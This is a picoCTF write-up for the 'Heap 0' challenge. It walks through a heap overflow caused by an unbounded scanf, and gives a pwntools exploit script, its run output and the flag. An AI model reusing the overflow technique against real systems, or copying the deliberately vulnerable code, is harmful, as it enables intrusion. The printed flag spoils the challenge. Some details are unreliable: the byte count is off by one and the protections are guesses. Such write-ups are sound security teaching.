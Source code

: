 # HEAP 0

***

## Writeup: Heap 0 - PicoCTF

### Challenge Overview

* **Name:** Heap 0
* **Authors:** Abrxs, pr1or1tyQ
* **Category:** Binary Exploitation
* **Points:** (Assuming 100-200, intro heap challenge)
* **Server:** `nc tethys.picoctf.net 51595`
* **Files:** `heap0.c` (source), `heap0` (binary)
* **Description:** "Are overflows just a stack concern?"
* **Hint:** "What part of the heap do you have control over and how far is it from the safe\_var?"

This PicoCTF challenge introduces heap exploitation with a remote instance. Our task: overwrite `safe_var` to print the flag from `flag.txt`.

***

### Initial Analysis

#### Binary Protections

(Assumed from source and typical PicoCTF setup):

* **Arch:** amd64-64-little
* **RELRO:** Likely Partial RELRO
* **Stack:** No canary (heap-focused)
* **NX:** Enabled
* **PIE:** Likely disabled
* **Stripped:** Likely not stripped

#### Source Code

```c
#define INPUT_DATA_SIZE 5
#define SAFE_VAR_SIZE 5

char *safe_var;
char *input_data;

void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");
        char buf[64];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, 64, fd);
        printf("%s\n", buf);
        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
    }
}

void init() {
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    scanf("%s", input_data);
}
```

* **Setup:**
  * `input_data`: 5-byte heap buffer (`"pico"`).
  * `safe_var`: 5-byte heap buffer (`"bico"`).
* **Vuln:** `scanf("%s", input_data)`—unbounded input into a 5-byte buffer.
* **Win:** `safe_var != "bico"` prints the flag.

#### Vulnerability

* **Heap Overflow:** `scanf` lets us write beyond `input_data`’s 5 bytes.
* **Heap Layout:** Sequential `malloc`s place `safe_var` after `input_data`.
* **Goal:** Overflow into `safe_var` to change it.

***

### Exploitation Plan

#### Step 1: Heap Layout

Remote heap output:

```
[*]   0x5a00704b22b0  ->   pico
[*]   0x5a00704b22d0  ->   bico
```

* **Distance:** `0x22d0 - 0x22b0 = 0x20` (32 bytes).
* **Chunk Size:** `malloc(5)` rounds to 16 bytes (8-byte metadata + 8 bytes data).
* **Layout:**
  * `0x22b0`: `input_data` data.
  * `0x22c0`: `safe_var` metadata.
  * `0x22d0`: `safe_var` data.

#### Step 2: Payload

* **Reach `safe_var`:** 32 bytes from `input_data` to `safe_var`’s data.
* **Payload:** 32 bytes padding + `"pwn3d"` (38 bytes total).

#### Step 3: Exploit

* Write the payload and trigger the win check.

***

### Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'

# Connect
p = remote('tethys.picoctf.net', 51595)
p.recvuntil(b'Enter your choice: ')

# Write to buffer
p.sendline(b'2')
p.recvuntil(b'Data for buffer: ')
payload = b'A' * 32 + b'pwn3d'  # 38 bytes
p.sendline(payload)
log.info(f'Sent payload: {payload}')

# Check win
p.sendlineafter(b'Enter your choice: ', b'4')
p.interactive()
```

#### How It Works

1. **Connects:** Links to the remote server.
2. **Payload:**
   * `A*32`: Fills `input_data` and padding to reach `safe_var`.
   * `pwn3d`: Overwrites `safe_var`.
3. **Wins:** Option 4 checks `safe_var != "bico"`, prints the flag.

***

### Execution

From your run:

```
$ python exp.py
[+] Opening connection to tethys.picoctf.net:51595: Done
[*] Sent payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApwn3d'
[*] Switching to interactive mode
YOU WIN
picoCTF{my_first_heap_overflow_c3935a08}
[*] Got EOF while reading in interactive
```

* **Payload:** `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApwn3d`.
* **Result:** `safe_var` changed, flag retrieved!

***

### Challenges Faced

1. **Offset Misstep:** Initial 19-byte payload (`A*5 + B*11 + pwn3d`) was too short—heap dump revealed 32 bytes needed.
2. **Heap Guesswork:** No local binary, so we tuned padding with remote feedback.
3. **Precision:** Had to hit `safe_var`’s data exactly at `0x22d0`.

***

### Conclusion

"Heap 0" was a fantastic intro to heap overflows. The unbounded `scanf` let us smash past `input_data`’s 5 bytes, overwriting `safe_var` 32 bytes away. With a precise payload and a little heap sleuthing, we turned "secure" into "pwned" and grabbed the flag. Stack overflows? Heap says hold my buffer!

**Flag:** `picoCTF{my_first_heap_overflow_c3935a08}`

Happy hacking!

***
